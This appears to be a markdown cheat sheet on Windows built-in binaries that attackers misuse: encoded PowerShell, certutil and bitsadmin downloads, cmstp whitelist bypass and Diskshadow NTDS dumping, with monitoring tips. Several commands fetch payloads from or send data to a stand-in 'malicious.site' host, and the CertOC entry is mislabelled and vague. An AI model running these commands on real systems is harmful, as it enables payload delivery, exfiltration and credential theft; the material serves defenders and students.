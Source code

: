 # Data Transfer Techniques
## cmd.exe
One of the techniques employed by adversaries is leveraging Alternate Data Streams (ADS) to hide malicious payloads. Additionally, `cmd.exe` can be used to **download or upload files**, facilitating data ingress or egress.
```cmd
#Creating an Alternate Data Stream:
echo This is hidden data > legitfile.txt:hidden.txt

#Executing a PowerShell command using cmd.exe:
cmd.exe /c "powershell -Command "& {Write-Output 'Hello from PowerShell'}""
```
> **Tips and Tricks:** Always monitor `cmd.exe` for unusual or unexpected command-line arguments. Consider using Sysmon to log commandline executions.

## powershell.exe (Encoding & Execution)
Malicious actors often use **PowerShell's** `-EncodedCommand` parameter to execute Base64 encoded commands, making detection and analysis more challenging.
```powershell
#Executing an Encoded PowerShell Command:
$command = "Write-Output 'Malicious Activity'"
$encodedCommand = [Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes($command))

powershell.exe -EncodedCommand $encodedCommand
```
> **Tips and Tricks:** Enable PowerShell logging to capture and analyze all executed scripts. Consider using tools like Revoke-Obfuscation to detect obfuscated PowerShell scripts.

## certutil.exe (Data Transfer and Encoding)
Certutil.exe is a command-line program used to manage certificates in Windows. However, its ability to download files and encode/decode data has made it a popular tool for attackers. They can misuse certutil.exe to fetch malicious payloads from remote servers or to obfuscate data to evade detection.

```cmd
#Downloading a File with Certutil:
certutil.exe -urlcache -split -f "http://malicious.site/payload.exe" payload.exe

#Decoding a Base64 Encoded File:
certutil.exe -decode encodedfile.txt decodedfile.exe
```

> **Tips and Tricks:** Monitor `certutil.exe` for any network connections or unusual file operations. If there's no legitimate use for **certutil.exe** in your environment, consider blocking or restricting its execution.


## bash.exe (Indirect Command Execution)
By invoking Bash.exe with specific parameters or scripts, malicious actors can run commands that might otherwise be flagged or blocked if executed directly.

**CMD**
```bash
bash.exe -c "your_linux_command_here"
```
**Powershell**
```powershell
Start-Process -NoNewWindow "bash.exe" -ArgumentList "-c your_linux_command_here"
```

## bitsadmin (File Transfer)
Bitsadmin.exe is a command-line tool that provides the ability to create and monitor BITS (Background Intelligent Transfer Service) jobs. While its legitimate use is for transferring files between machines, attackers can misuse it to download, upload, or even execute malicious files. Its ability to perform these tasks in the background can make detection more challenging.

**CMD**
```cmd
bitsadmin.exe /transfer job_name /download /priority normal http://malicious_url/malicious_file C:\path\to\save\malicious_file
```

**Powershell**
```powershell
Start-Process -NoNewWindow "bitsadmin.exe" -ArgumentList "/transfer job_name /download /priority normal http://malicious_url/malicious_file C:\path\to\save\malicious_file"
```

## certos.exe (File Transfer)
CertOC.exe is a legitimate binary related to certificate operations in Windows. However, its functionalities can be misused by attackers to download or execute malicious files. By invoking CertOC.exe with specific arguments, an attacker can transfer files from a remote location to the local machine, potentially bypassing certain security controls.

**CMD**
```cmd
CertOC.exe -parameter:[specific_parameters_for_transfer]
```

**Powershell**
```powershell
Start-Process -NoNewWindow "CertOC.exe" -ArgumentList "-parameter:[specific_parameters_for_transfer]"
```


## diantz.exe (NTFS Attributes Manipulation and File Transfer)
Diantz.exe is a legitimate Windows binary associated with archive functionalities. Attackers can exploit it to manipulate NTFS file attributes, which can be used to hide malicious activities or files. Additionally, it can be used to download malicious payloads from remote servers.

**CMD**
```cmd
Diantz.exe /option:C:\path\to\input http://malicious.site/payload
```

**Powershell**
```powershell
Invoke-Expression "Diantz.exe /option:C:\path\to\input http://malicious.site/payload"
```

## cmstp.exe (Application Whitelist Bypass)
Cmstp.exe is a Microsoft binary used for the installation of Connection Manager service profiles. Attackers have discovered that it can be abused to execute malicious scripts and bypass application whitelisting solutions, such as AppLocker, by invoking the installation of a malicious .inf file.

**CMD**
```cmd
cmstp.exe /s /ns C:\path\to\malicious.inf
```

**Powershell**
```powershell
Invoke-Expression "cmstp.exe /s /ns C:\path\to\malicious.inf"
```

## control.exe (Malicious Activities)
Control.exe is the main executable for the Windows Control Panel. Attackers can misuse it by invoking specific Control Panel items (.cpl files) that have been tampered with or replaced by malicious versions. This can lead to a range of malicious activities, from information theft to system compromise.

**CMD**
```cmd
control.exe C:\path\to\malicious.cpl
```

**Powershell**
```powershell
Invoke-Expression "control.exe C:\path\to\malicious.cpl"
```

## cscript (Script Execution and Data Stream Manipulation)
Cscript.exe is a command-line version of the Windows Script Host that allows users to run scripts by typing the script file name at the command prompt. While it's designed for legitimate scripting tasks, it can be used by attackers to execute malicious scripts or manipulate alternate data streams.

**CMD**
```cmd
cscript.exe C:\path\to\script.vbs
```

**Powershell**
```powershell
Invoke-Expression "cscript.exe C:\path\to\script.vbs"
```

## DataSvcUtil.exe (Exfiltration Over Web Service)
DataSvcUtil.exe is a tool used for generating data service classes. Malicious actors can misuse this tool to exfiltrate data by sending it to a web service. Monitoring network traffic and the behavior of this binary can help in identifying suspicious activities.

**CMD**
```cmd
DataSvcUtil.exe /out:C:\path\to\output /uri:http://malicious.site
```

**Powershell**
```powershell
Invoke-Expression "DataSvcUtil.exe /out:C:\path\to\output /uri:http://malicious.site"
```

## Diskshadow.exe (NTDS Dumping and Indirect Command Execution)
`Diskshadow.exe` is a Windows utility for disk shadow copies. Malicious actors can misuse it to dump the NTDS.dit file, which contains Active Directory data, including user credentials. Additionally, it can be used for indirect command execution, allowing attackers to run commands under the context of another process.

**CMD**
```cmd
Diskshadow.exe -s C:\path\to\script.txt
```

**Powershell**
```powershell
Invoke-Expression "Diskshadow.exe -s C:\path\to\script.txt"
```

































